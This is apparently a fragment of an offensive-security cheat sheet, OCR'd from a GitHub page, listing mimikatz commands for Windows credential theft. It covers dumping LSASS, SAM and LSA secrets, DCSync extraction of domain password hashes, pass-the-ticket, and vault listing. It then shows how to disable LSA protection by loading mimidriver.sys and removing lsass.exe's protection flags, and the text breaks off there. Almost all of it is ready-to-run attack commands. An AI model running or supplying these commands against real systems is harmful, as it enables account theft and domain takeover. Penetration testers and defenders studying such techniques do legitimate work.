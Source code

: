 ```

#Dump and save LSASS in a file
mimikatz sekurlsa::minidump c:\\temp\\lsass.dmp

#List cached MasterKeys
mimikatz sekurlsa::dpapi

#List local Kerberos AES Keys
mimikatz sekurlsa::ekeys

#Dump SAM Database
mimikatz lsadump::sam

#Dump SECRETS Database
mimikatz lsadump::secrets

#Inject and dump the Domain Controler's Credentials
mimikatz privilege::debug
mimikatz token::elevate
mimikatz lsadump::lsa /inject

#Dump the Domain's Credentials without touching DC's LSASS and also remotely
mimikatz lsadump::dcsync /domain:<DomainFQDN> /all

#Dump old passwords and NTLM hashes of a user
mimikatz lsadump::dcsync /user:<DomainFQDN>\\<user> /history

#List and Dump local kerberos credentials
mimikatz kerberos::list /dump

#Pass The Ticket
mimikatz kerberos::ptt <PathToKirbiFile>

#List TS/RDP sessions
mimikatz ts::sessions

#List Vault credentials
mimikatz vault::list
```

❗ What if mimikatz fails to dump credentials because of LSA Protection controls ?

- LSA as a Protected Process (Kernel Land Bypass)
    
    ```
    #Check if LSA runs as a protected process by looking if the variable "RunAsPPL" is set to 0x1
    reg query HKLM\\SYSTEM\\CurrentControlSet\\Control\\Lsa
    
    #Next upload the mimidriver.sys from the official mimikatz repo to same folder of your mimikatz.exe
    #Now lets import the mimidriver.sys to the system
    mimikatz # !+
    
    #Now lets remove the protection flags from lsass.exe process
    mimikatz # !processprotect /process:lsass.exe /remove
    